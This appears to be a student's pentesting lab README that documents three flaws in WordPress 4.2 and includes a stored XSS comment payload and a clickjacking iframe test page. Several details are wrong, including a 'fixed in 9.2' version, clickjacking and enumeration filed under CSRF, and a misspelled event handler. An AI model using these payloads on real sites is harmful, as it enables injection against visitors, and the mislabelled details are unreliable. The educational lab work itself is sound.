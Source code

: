 # Project 7 - WordPress Pentesting

Time spent: **25** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. POC Authentication Stored Cross-Site Scripting (XSS)(Required)

- [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version:  9.2
- [ ] GIF Walkthrough: 
    
    
    ![](https://media.giphy.com/media/1BeG0ImJSqnIEOqv8r/giphy.gif)

- [ ] Steps to recreate: 
> A user or and admin inserts an javascript code `'<a href="[caption code=">]</a><a title=" onemouseover=alert('XSS!') ">link</a>` in the comment
> When the user or admin hovers over the the link then they will encounter a XSS messgae


2. ClickJacking (CSRF)(Required)

- [ ] Summary: 
    - Vulnerability types: CSRF
    - Tested in version: 4.2
    - Fixed in version:  4.2.2
- [ ] GIF Walkthrough:

    ![](https://media.giphy.com/media/7JEtlSnVUxW1SaFwlc/giphy.gif)
    
- [ ] Steps to recreate: 
> A user or an admin insterts an malicious html code into a comment
```html
<html>
   <head>
     <title>Clickjack test page</title>
   </head>
   <body>
     <p>Website is vulnerable to clickjacking!</p>
     <iframe src="http://www.target.site" width="500" height="500"></iframe>
   </body>
</html> 
```
> Click the submit button
> refresh page and you will see the mini website within the comment

3. UserEnumeration (CSRF)(Required)

- [ ] Summary: 
    - Vulnerability types: CSRF
    - Tested in version: 4.2
    - Fixed in version:  4.2.2
- [ ] GIF Walkthrough:

    ![](https://media.giphy.com/media/uFi9nF5mIAhKvISknT/giphy.gif)

- [ ] Steps to recreate: 
> A user will submit a comment for the admin to approve it
> Admin accepts comment
> The same user can post multiple comments without being approved
  
    
